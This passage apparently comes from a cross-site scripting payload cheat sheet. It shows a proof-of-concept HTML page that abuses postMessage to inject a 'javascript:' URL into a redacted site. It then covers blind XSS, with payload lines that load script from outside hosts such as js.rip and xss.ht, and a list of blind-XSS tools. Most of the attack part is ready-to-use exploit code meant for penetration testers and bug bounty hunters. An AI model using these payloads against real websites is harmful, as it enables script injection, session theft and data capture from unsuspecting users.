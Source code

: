 ```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
</html>
```

## Blind XSS

### XSS Hunter

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

XSS Hunter is deprecated, it was available at [https://xsshunter.com/app](https://xsshunter.com/app). 

You can set up an alternative version 

* Self-hosted version from [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
* Hosted on [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### Other Blind XSS tools

- [Netflix-Skunkworks/sleepy-puppy](https://github.com/Netflix-Skunkworks/sleepy-puppy) - Sleepy Puppy XSS Payload Management Framework
- [LewisArdern/bXSS](https://github.com/LewisArdern/bXSS) - bXSS is a utility which can be used by bug hunters and organizations to identify Blind Cross-Site Scripting. 
- [ssl/ezXSS](https://github.com/ssl/ezXSS) - ezXSS is an easy way for penetration testers and bug bounty hunters to test (blind) Cross Site Scripting. 

